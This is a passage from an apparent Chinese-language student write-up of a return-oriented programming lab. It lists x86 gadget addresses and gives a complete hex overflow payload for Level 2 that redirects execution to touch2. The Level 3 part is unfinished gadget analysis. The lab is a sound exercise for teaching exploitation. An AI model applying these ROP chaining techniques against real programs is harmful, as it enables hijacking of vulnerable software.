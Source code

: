 面向返回攻击的大概思想是，由于x86的编码机制，可以从指令的中间截断并将后半部分视为一个新指令；我们希望在已有的程序中发掘一些形如“**有用的指令+ret**”的片段，将它们组合成一段可用的程序。

#### Level 2

我们在`start_farm`到`mid_farm`中间一段的代码中寻找可能有用的片段。

`getval_280`的指令片段`58 90 c3`对应代码`popq %rax; nop; retq`，起始地址`0x4019ca+2=0x4019cc`。

`addval_273`的指令片段`48 89 c7 c3`对应代码`mov %rax, %rdi; reqt`，起始地址`0x4019a0+2=0x4019a2`。

有了这两段指令，我们从栈上取出`0x59b997fa`到`%rax`，再传入`%rdi`，调用`touch2`，完成。**还是注意栈从高往低增长，所以我们的地址从低往高放。**答案为：

```
20 20 20 20
20 20 20 20
20 20 20 20
20 20 20 20
20 20 20 20
20 20 20 20
20 20 20 20
20 20 20 20
20 20 20 20
20 20 20 20
cc 19 40 00
00 00 00 00
fa 97 b9 59
00 00 00 00
a2 19 40 00
00 00 00 00
ec 17 40 00
00 00 00 00
```

#### Level 3

首先考虑一下我们的思路。我们会在栈上构造一个`"59b997fa"`，并希望将它的地址传给`%edi`。但是，由于栈随机化的存在，我们需要将`%rsp`的值传给`%rdi`，然后用`popq`指令调整到正确的返回地址。

这个过程不会是一下子完成的。我们先考虑最后一步，一定是`popq`之后做一些可能没用的操作，然后`ret`。可以这样做的情况包括：

函数 | 指令
--- | ---
`addval_219` | `pop %rax`
`addval_280` | `pop %rax`
`getval_481` | `pop %rsp; movl %eax,%edx`

好像没什么有意义的。再看看`mov %rsp, ???`的指令：

函数 | 指令
--- | ---
`addval_190` | `movq %rsp, %rax`
`addval_110` | `movl %esp, %eax`
`setval_181` | `movl %esp, %eax`
`setval_350` | `movq %rsp, %rax`

再考虑出现过那几个功能性nop的指令：
